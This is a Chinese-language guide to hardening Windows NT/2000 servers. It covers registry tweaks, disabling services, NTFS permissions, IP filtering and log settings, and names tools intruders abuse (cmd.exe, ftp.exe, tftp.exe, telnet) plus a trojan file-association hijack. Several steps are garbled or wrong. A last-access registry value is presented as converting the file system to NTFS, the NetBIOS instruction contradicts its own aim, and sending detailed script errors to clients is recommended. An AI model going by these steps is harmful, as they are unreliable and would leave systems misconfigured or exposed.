- 3. 在 RestrictRun 的主键下分别添加名为“1”“2”“3”等字符串值，然后将“1”“2”“3”等字符串的值设置为我们允许用户使用的程序名。例如将“1”“2”“3”分别设置为 word.exe、notepad.exe、write.exe，则用户只能使用 word、记事本、写字板了。这样，我们的系统将会做到最大的保障，也可以限制用户运行不必要的软件了。

### 十三、不允许用户设置屏幕保护密码

许多电脑使用者在使用电脑时，都有一种独占性，他们不希望自己使用的电脑让别人使用，于是他们常常会在短暂离开电脑时，给电脑设定屏保密码。但遗憾的是，他们在用完电脑之后，又不能及时把这些屏保密码去除，这样很容易导致其他用户不能正常使用，严重的能使计算机无法启动。为了避免这些现象的发生，我们可以通过修改注册表来限制用户设置屏幕保护密码。表，来设定用户无权进行屏保密码的设置。

- 1. 打开注册表编辑器窗口，在该窗口中用鼠标访问 `HKEY_CURRENT_USER\ControlPanel\desktop\ScreenSaveUsePassword` 键值。
- 2. 在对应 `ScreenSaveUsePassword` 键值的右边窗口中，将 `ScreenSaveUsePassword` 的值设置为 0 就可以了。其中 0 代表“取消”该项功能，1 代表“启用”该项功能。

## 十四、将文件系统设置为 NTFS 格式

在 Windows 2000 以及 NT 系统中，用户可以将分区设置为 NTFS 格式来确保文件系统的安全，当然我们也可以通过修改注册表的方法来达到将文件系统设置为 NTFS 格式的目的，具体实现步骤如下：

- 1. 打开注册表编辑器，并在编辑器中依次展开以下键值：`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\FileSystem`。
- 2. 在注册表编辑器中用鼠标单击“编辑”菜单，并在下拉菜单中选择“新建”菜单项，并在其弹出的子菜单中单击“DWORD 值”。
- 3. 在编辑器右边的列表中输入 DWORD 值的名称为 `NtfsDisableLastAccessUpdate`。
- 4. 接着用鼠标双击 `NtfsDisableLastAccessUpdate` 键值，编辑器就会弹出一个名为“字符串编辑器”对话框，在该对话框的文本栏中输入数值“1”，其中 0 代表“取消”该项功能，1 代表“启用”该项功能。

## 十五、抵御 WinNuke 黑客程序对计算机的攻击

WinNuke 是一个破坏力极强的程序，该程序能对计算机中的 Windows 系统进行破坏，从而导致整个计算机系统瘫痪，所以我们有必要预防 WinNuke 的破坏性。我们可以在注册表中对其进行设置，以保证系统的安全。

- 1. 在注册表编辑器操作窗口中，用鼠标依次单击键值 `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\VxD\MSTCP`。
- 2. 在对应 `MSTCP` 键值的右边窗口中，用鼠标单击窗口的空白处，从弹出的快捷菜单中选择“新建”/“DWORD 值”，并给 DWORD 值取名为 `BSDUrgent`，如果该键值已经存在，可以直接进行下一步。
- 3. 然后将 `BSDUrgent` 值设置为 0，重新启动计算机后就可以实现目的了。

**编者后记：** 近期编辑部经常收到有关询问注册表安全的问题，编辑们也尽力解答，闲暇之余想想是不是为大家整理一篇常见注册表和网络安全支招的文章呢？碰巧作者寄来一文，一看正中下怀，赶紧拿出来和大家共同分享，虽都是一些小的知识点，但是非常实用，希望大家能够喜欢。

### 注册表的潜在危险

众所周知，32 位的 Windows 操作系统注册表储存了大量系统定义信息。原则上说，唯一可对之进行读写的只有系统管理员或超级用户。也只有需要安装新的应用程序进行系统或必须检查跟踪记录以及别的系统信息的人才有对注册表的访问权。如果 USERS 有扩充的访问权或 GUEST 账号有特权，则未授权用户以及入侵者就可以编辑注册表。不幸的是，注册表所暴露出来的弱点不仅是简单的安装程序口令等信息，通过编辑注册表，可以修改整个 Windows NT 安装的配置。

在入侵者打开注册表时，可以很容易地访问 `HKEY_LOCAL_MACHINE` 和 `HKEY_CLASSES_ROOT` 的控制列表。如果入侵者有权编辑注册表的入口，由他可以逐个检查（包括文件关联和程序等）入口以修改他的写权限。如：微软在 NT 4.0 以前的版本中，使 `HKEY_CLASSES_ROOT` 注册对于 USERS 可写。也就是说，任何能访问计算机的人都可以修改文件关联（如将 `*.txt=notepad.exe` 改写为 `*.txt=木马程序名`）。在改变文件关联后，只要系统重启，入侵者可以将木马放进系统。更糟糕的是，如果 GUESTS 账号对注册表具有写权限，则 Windows NT 将严重面临入侵的危险。解决方案：定期查看注册表的许可权。此外，在 NT 4.0 下应该完全禁止从网络中访问注册表。

Windows 2000 Server 存在的安全隐患在早期一经发现，便引起了包括微软自己在内业界的广泛高度重视，并出台了相应的补救措施，而作为用户，特别是构建在 Windows 2000 网络操作平台上的企业网络管理员，如何全面正确地加固配置自己的 Windows 2000 Server 系统，还需要对其漏洞特性以及具体的补救配置方法有较全面深入的了解及掌握。本文就此进行了全面系统的论述。



### Windows 2000 Server 系统加固不完全指南

系统安全是一个非常大的概念，绝不仅仅只是系统加固，系统加固只有和防火墙、入侵侦测、良好的安全意识等相结合才能够确保信息的安全。本文仅就 Windows 2000 系统的安装、文件、目录管理以及 IIS、SQL 配置及 ASP 等的最基本的一些安全问题进行一些讨论。为了写文章方便，我们假设一台主机，机器名为 MARS，有两块网卡，一块接 Internet，一块接内网。MARS 作为一台独立服务器，准备安装 Windows 2000，安全性以能阻拦大多数入侵者同时又不使大多数系统管理员头痛为准。

尽管一些人对 Windows 2000 还有很多非议，但它仍是一个先进的操作系统，在安全上改掉了以往 NT 版本的不少坏毛病，对于以前很多需要手工改注册表来实现的安全设置也提供了友好的 GUI 界面。以前我们用于 NT 的安全知识在这里基本都还有用，但很多工作系统默认都做好了。另外还增加了不少新的特性。

安全的概念在安装系统之前就该贯彻。安装 Windows 2000 之前应该对硬盘进行重新分区、格式化，确保硬盘上没有任何数据。一台安全的服务器不可以是多引导的，要保证机器上只有 Windows 2000 一个操作系统。设定机器的 CMOS 开机密码也是必要的。还有，作为服务器，务必保证不能接受拨号连接，如果机器上有调制解调器，请拆除，至少应该在硬件管理器中禁用。如果的确需要保留多个操作系统，可以安装后把 boot.ini 的启动超时设置为 0。

应该使用从正规渠道获得的不可擦写媒体作为安装介质，如正版光盘。硬盘上的安装文件拷贝是不可以信赖的，尤其是在遭受到入侵或病毒感染后。安装过程中不要随便离开。使用无人值守安装时，则一定要保证机器的物理安全。另外由于无人值守安装使用的配置文件中管理员口令是以明文存储的，所以，安装完毕后一定要更改口令，并安全删除配置文件。安装时不要选择多余组件，任何与主机所提供的服务无关的应用程序都不要安装，也不要安装任何第三方应用程序、屏幕保护等。对于 Windows 不能识别的硬件需要手动安装驱动程序的，只使用硬件厂商主页上提供的官方驱动。另外，绝对要使用 NTFS 来格式化所有分区！

安装完毕后应当删除 `WINNT\repair` 目录下的所有内容，重新启动一次机器，完成网络设置和其他一些配置后开始安装系统补丁。原则上应该安装当前所有的 Service Pack 和 HotFixes。安装的补丁都应该直接来源于微软的站点。以后每对机器做一次配置，如果系统提示要使用 Windows 2000 光盘，则都应当重新安装一次补丁。如果打算在机器上使用 IE，那么最好使用 IE 的最高稳定版本，并打上所有已有的补丁，但建议最好不要在服务器上使用 IE。

- 最新 Service Pack 发布消息：`http://www.Microsoft.com/Windows2000/downloads/servicepacks`
- 最新 Hot Fixes 发布消息：`http://www.Microsoft.com/technet/security/current.asp`

所有补丁安装完毕后，开始安全设置。如果管理员手中有 Windows 2000 资源工具包（Resource Kit），那么很多工作都可以很轻松地完成，但这个东西是受版权保护的，需要相当的银子才能买到。如果没有也没关系，本文中所有的设置都是通过使用系统中已有的工具进行的。

首先停止一些不必要的服务，这样不但有利于安全，也可以减轻系统负担。但因为每台主机的情况各不相同，需要分别对待，对于仅运行 IIS 的 MARS 来说，以下服务通常是必需的：

- DNS Client
- Event Log
- License Logging Service
- Windows NTLM Security Support Provider
- Remote Procedure Call (RPC) Service
- Windows NT Server or Windows NT Workstation
- IIS Admin Service
- MSDTC
- World Wide Web Publishing Service
- Protected Storage
- COM + Event System
- Network Connections
- Windows Management Instrumentation Driver Extensions
- Windows Management Instrumentation

以下这些服务一般都是需要“禁用”的，尤其是前面六个：

- Remote Registry Service
- Server
- Schedule
- FTP publishing service
- Telnet
- Terminal Services
- RunAs Service
- Telephony
- Alerter
- ClipBook Server
- Computer Browser
- DHCP Client
- Directory Replicator
- Messenger
- Netlogon
- Network DDE
- Network DDE DSDM
- Network Monitor
- Remote Access Server
- Remote Procedure Call (RPC) locator
- Spooler
- TCP/IP Netbios Helper
- Telephone Service

还有一些服务如 SNMP Service、UPS 等，根据具体情况，如果拿不准可以选择手动，这样系统在需要的时候会自己启动这些服务。

然后进行文件和目录的管理：

- 1. 打开管理工具中的 Internet 服务管理器，删除“默认 Web 站点”及其下所有目录，并在资源管理器中彻底删除这些文件。在非系统分区建立 Web 根目录，假设为 `D:\Webroot\`。
- 2. 在“管理 Web 站点”上单击右键，选择“新建”→“站点”。按照提示操作，站点说明假设叫“pub”，目录输入 `d:\Webroot`，只给读取权限。



- 3. 在“pub”的属性“主目录”中设置执行许可为“无”，“应用程序设置”→“配置”中删除所有应用程序映射。如果需要使用 ASP，则应建立一个 `D:\Webroot\cgi-bin` 目录，在“属性”→“目录”里允许脚本资源访问，应用程序设置里点“创建”，“应用程序配置”里添加对 ASP 的映射。所有 ASP 文件都放在此目录下。在“应用程序调试”页中选取“发送文本错误消息给客户”。



### 文件权限设置

对于仅提供 IIS 服务的主机可以参考以下的策略：

- 1. 对于所有硬盘分区：
  - System：完全控制
  - Administrator：完全控制
- 2. `\Program Files\Common Files`：
  - Everyone：读取及运行、列出文件目录、读取（允许将来自父系的可继承性权限传播给对象）
- 3. `\Webroot`：
  - IUSR_MACHINE：读取及运行、列出文件目录、读取（允许将来自父系的可继承性权限传播给对象）
- 4. `\Winnt\system32`：
  - 选择除 Inetsrv 和 CertSrv 以外的所有目录，去除“允许将来自父系的可继承性权限传播给对象”选框，复制。
- 5. `\Winnt`：
  - 选择除了 Downloaded Program Files、Help、IIS Temporary Compressed Files、Offline Web Pages、system32、Tasks、Temp、Web 以外的所有目录，去除“允许将来自父系的可继承性权限传播给对象”选框，复制。
- 6. `\Winnt`：
  - Everyone：读取及运行、列出文件目录、读取（允许将来自父系的可继承性权限传播给对象）
- 7. `\Winnt\Temp`：
  - Everyone：修改（允许将来自父系的可继承性权限传播给对象）。



除上面提到的权限外，删除所有用户、组的权限。

上面我们假设了一台仅仅需要运行 HTTP 服务的机器，我们牺牲了很多的易用性来获取安全设置上的简单。为了考虑操作上的简单性，使用的都是很极端的方法。譬如 Server 服务，远程注册表管理等，如果能够禁用，可以极大提高安全性，也省了很多其他的安全加固措施。但实际工作中，往往会有很多复杂的情况，诸如为了管理上的方便等因素，很多服务器都是必须运行这些服务的，这种情况下系统加固就牵涉到很多内容。

现在我们的 MARS 必须运行 Server 服务了，还要运行远程注册表服务，为了网页更新的方便，需要运行 FTP 服务。为了使用动态网页，我们还要让它运行 MS SQL 2000。系统可能需要让多个用户可访问，所以目录权限也不能像上面那样严格。

首先，迁移以下应用程序：
`xcopy.exe, wscript.exe, cscript.exe, net.exe, ipconfig.exe, ftp.exe, arp.exe, edlin.exe, rcp.exe, ping.exe, route.exe, at.exe, posix.exe, rsh.exe, cmd.exe, qbasic.exe, syskey.exe, secfixup.exe, nslookup.exe, runonce.exe, tracert.exe, nbtstat.exe, regedt32.exe, regedit.exe, finger.exe, Telnet.exe, netstat.exe, rexec.exe, atsvc.exe, cacls.exe, edit.com, debug.exe, command.com`

列表中的程序如 `arp.exe`、`regedit.exe` 都是可以被入侵者用来提升权限的；而 `command.com`、`debug.exe`、`cmd.exe`、`tftp.exe`、`ftp.exe` 都直接对入侵有帮助；`edlin.exe`、`debug.exe` 可以以命令行方式创建文本甚至二进制文件；`qbasic.exe`、`cscript.exe`、`wscript.exe` 可以运行入侵者编写的脚本，一些蠕虫也要借助于 VBS 引擎。事实上绝大多数与系统启动、正常运行无关的应用程序都应该加到这个列表中来。创建一个只有管理员才能访问的文件夹，把这些程序都移动到其中。

注意：由于 Windows 2000 的系统文件保护机制，需要先删除 `WINNT\system32\dllcache` 下相应文件，才能操作成功。

### 本地安全设置

打开“控制面板”→“管理工具”→“本地安全设置”，首先设置密码策略。推荐设置为：

- 强制密码历史：启用，5 次
- 密码最长存留期：启用，60 天
- 密码最短存留期：启用，7 天
- 密码必须符合复杂度要求：启用
- 为域中所有用户使用可还原的加密来储存密码：停用

对于运行 IIS 的服务器，我们建议不要使用账户锁定策略，因为进攻者可以通过对 `IUSR_MARS` 账号的反复登录尝试使其锁定，后果就是任何人无法访问 IIS 服务。这是微软的一个设计失误，目前还没有解决的方法。

在“本地策略”→“安全选项”里：
- 将“Lan Manager 身份验证级别”改为“仅发送 NTLM 响应”。
- 将“对匿名连接的额外限制”设为“没有显式匿名权限就无法访问”（注：原文“显式”可能为“显示”之误）。
- 启用“在关机时清理虚拟内存交换页面”。
- 启用“登录屏幕上不要显示上次登录的用户名”。
- “重命名来宾账户”和“重命名系统管理员账户”，把 guest、administrator 账户更名。

接下来通过对 IP 的过滤实现一个准防火墙。打开“本地安全设置”的“IP 安全策略”，在本地机器“安全服务器”，在“IP 筛选列表”中编辑“所有 IP 通讯”。然后在 IP 筛选列表中添加新筛选列表。



譬如：任意 IP 访问本机 IP 的 UDP 135 端口。筛选器操作里选“要求安全设置”。原则是所有 UDP 端口都不可访问，危险 TCP 服务限制访问，ICMP 可以根据具体情况自行决定，为防止 DoS 和一些 ICMP backdoor，一般也是禁止的。具体请参考：`www.Microsoft.com/china/TechNet/windows2000/win2ksrv/ipsecld.asp`

利用上面的 IPSec 来控制访问是一种比较灵活的手段，但操作上较复杂。Windows 2000 从 Windows NT 继承了“TCP/IP 筛选”的功能。打开“网络和拨号连接”，在对外连接的网卡的 TCP/IP“属性”→“高级”的选项页。



选择“TCP/IP 筛选”，因为我们对外只需提供 HTTP 服务，所以只允许 TCP 80 端口。如果你打算用这台机子运行 QQ，那么还要开一个 4000 UDP 端口。目前使用的 IP 版本还是 IPv4，所以我们就选 4，还可以把 6 也加上。



在即使在这台机器上运行一个普通的后门程序从外网也无法连接。注意：这里设置的端口限制只是限制不能被动监听，所有端口对外的主动连接都是被允许的。

Windows 2000 和 Windows NT 一样，默认是允许 TCP/IP 绑定 NetBios 的。我们来取消它：在对外连接的网卡的 TCP/IP “属性” “高级”的选项项里选择 “WINS”，取消 “禁用 TCP/IP 上的 NetBios”；取消 “启用 LMHOSTS 查询”，因为 LMHOSTS 查询是优先的，入侵者可以通过改变 LMHOSTS 文件将你引到恶意站点，如图 8。

打开事件查看器，把每个日志的“最大日志文件大小”设得尽量大一些，至少在百兆以上，因为一旦日志文件超过定额就会损坏，无法查看。系统默认的那一点可以被入侵者很快填满。事件日志覆盖方式为：覆盖 30 天以前的日志。

设置 `%SystemRoot%\System32\LogFiles` 权限为仅管理员和 System 完全控制。

即使不能像上面那样严格的设定权限，我们仍然建议去掉 guest 对根目录的完全控制。还应当拒绝 guest 用户访问日志。打开注册表编辑器，找到：
`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\EventLog\`

